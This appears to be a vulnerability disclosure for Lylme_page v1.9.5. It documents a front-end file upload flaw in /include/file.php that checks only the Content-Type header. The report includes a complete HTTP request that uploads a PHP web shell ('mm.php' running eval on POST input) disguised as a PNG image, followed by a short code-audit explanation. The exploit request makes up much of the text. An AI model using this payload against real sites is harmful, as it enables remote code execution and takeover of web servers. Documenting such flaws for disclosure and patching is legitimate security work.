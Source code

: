 Lylme_pagev1.9.5 has a file upload vulnerability in the front-end of the website.

In the/apply/index.php directory, grab packages uploaded from website icons, and construct it accordingly

![image-20240506161607812](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161607812.png)

```
POST /include/file.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Origin: http://127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
Cookie: X8Kk_2132_logintime=1713010988; X8Kk_2132_saltkey=sb50OXyE; X8Kk_2132_lastvisit=1713007324; XDEBUG_SESSION=PHPSTORM; admin_hkcms_lang=zh-cn; index_hkcms_lang=zh-cn; HKCMSSESSID=e0594fc037c66b2dcc477b032c98de35; PHPSESSID=jbl3he9k1riq937d993fc7luhi; admin_token=32cffj4RQkD5uVfTy3J25h8COeBWUDMFyPZMgE%2BSw2eAI1O%2FgJsuTSHq0vIvSxsREnWeNg59eXDvZU%2F6gdzPT3acrQ
Content-Type: multipart/form-data; boundary=---------------------------207262699182048909098055515
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Referer: http://127.0.0.1/apply/
Content-Length: 237

-----------------------------207262699182048909098055515
Content-Disposition: form-data; name="file"; filename="mm.php"
Content-Type: image/png

<?php eval($_POST[1]);?>
-----------------------------207262699182048909098055515--

```

![image-20240506161508365](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161508365.png)

Access and exploit this vulnerability

![image-20240506161502190](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161502190.png)

Code Audit

Image upload code /include/file.php

![image-20240517220138586](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240517220138586.png)

line 102, validate'file_type will be called to verify the file type (Content Type).

![image-20240517220147546](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240517220147546.png)

Extract the file extension in lines 105 and 106, concatenate the file name in line 110, and return information such as the path of the image. Therefore, as long as the Content Type type is on this whitelist, any file can be uploaded.
